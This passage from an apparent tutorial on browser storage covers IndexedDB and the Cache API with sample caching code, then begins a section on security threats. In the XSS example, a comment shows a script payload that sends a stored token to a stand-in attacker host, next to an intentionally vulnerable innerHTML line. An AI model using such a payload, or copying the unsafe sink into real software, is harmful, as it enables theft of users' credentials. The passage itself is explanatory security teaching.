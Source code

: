This example demonstrates:

1. Opening/creating a database
2. Setting up an object store with indexes
3. Adding structured data to the database

IndexedDB provides:

* Storage limits in the hundreds of MB or more
* Asynchronous API
* Support for transactions
* Complex querying capabilities

### 4. Cache API

Part of the Service Worker API, it's designed for storing HTTP responses:

```javascript
// Store a response in the cache
async function cacheResource(url) {
  const cache = await caches.open('v1');
  const response = await fetch(url);
  await cache.put(url, response);
  console.log(`Cached: ${url}`);
}

// Retrieve from cache
async function getFromCache(url) {
  const cache = await caches.open('v1');
  const response = await cache.match(url);
  if (response) {
    console.log(`Found ${url} in cache`);
    return response;
  }
  console.log(`${url} not in cache, fetching`);
  return fetch(url);
}

// Example usage
cacheResource('/api/data.json');
```

This code shows how to store and retrieve network responses, which is particularly useful for offline capabilities.

## Security Threats and Mitigations

Now that we understand the storage mechanisms, let's explore the security threats they face:

### 1. Cross-Site Scripting (XSS)

XSS attacks inject malicious scripts that can access stored data:

```javascript
// Vulnerable code
document.getElementById('message').innerHTML = localStorage.getItem('userMessage');

// If userMessage contains: <script>fetch('https://attacker.com/steal?data='+localStorage.getItem('token'))</script>
// The attacker could steal sensitive data
```
